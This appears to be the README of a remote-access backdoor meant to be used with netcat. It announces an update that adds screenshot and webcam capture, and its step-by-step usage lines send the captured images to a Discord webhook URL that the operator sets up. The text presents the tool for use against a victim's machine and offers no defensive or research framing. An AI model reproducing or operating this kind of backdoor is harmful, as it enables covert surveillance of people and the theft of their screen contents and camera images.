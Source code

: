 THIS BACKDOOR IS UPDATED ON 25-07-2022 / 01-12-2022

IN THIS UPDATE I REMOVED THE "server.py", I ADDED THE SCREENSHOT AND WEBCAM (only photo) FEATURE IN THE BACKDOOR ITSELF :)

Here u can see how to run the screenshot and webcam feature:-

1. Make a discord server.
2. Copy it's webhook url (see it on youtube, it's fucking easy)

NOW ASSUME THAT IT'S THE SHELL...

For Screenshot:

[*] >> screen https://discord.com/api/webhooks/your_webhook_url_that_u_copied

For Webcam:

[*] >> webcam https://discord.com/api/webhooks/your_webhook_url_that_u_copied


NOTE:- This is made for --> NCAT/NETCAT
